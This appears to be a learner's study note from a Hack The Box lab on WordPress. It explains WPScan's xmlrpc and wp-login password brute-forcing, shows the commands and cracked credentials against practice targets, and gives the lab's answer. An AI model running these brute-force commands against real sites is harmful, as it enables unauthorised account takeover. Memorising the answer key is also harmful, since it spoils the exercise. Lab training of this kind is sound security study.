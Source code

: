 ﻿## WordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website:Â `admin`,Â `roger`, andÂ `david`. The tool uses two kinds of login brute force attacks,Â `xmlrpc`Â andÂ `wp-login`. TheÂ `wp-login`Â method will attempt to brute force the normal WordPress login page, while theÂ `xmlrpc`Â method uses the WordPress API to make login attempts throughÂ `/xmlrpc.php`. TheÂ `xmlrpc`Â method is preferred as it is faster.

#### WPScan - XMLRPC


```shell-session
smoothment@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

# Question
---

![Pasted image 20250220134229.png](../../../../IMAGES/Pasted%20image%2020250220134229.png)

Let's use this WPScan command:

```
wpscan --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt --url http://IP:PORT
```

We get this:

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - roger / lizard                                                                             
Trying roger / castro Time: 00:00:38 <                        > (1900 / 14346292)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: roger, Password: lizard

```


Answer is:

```
lizard
```
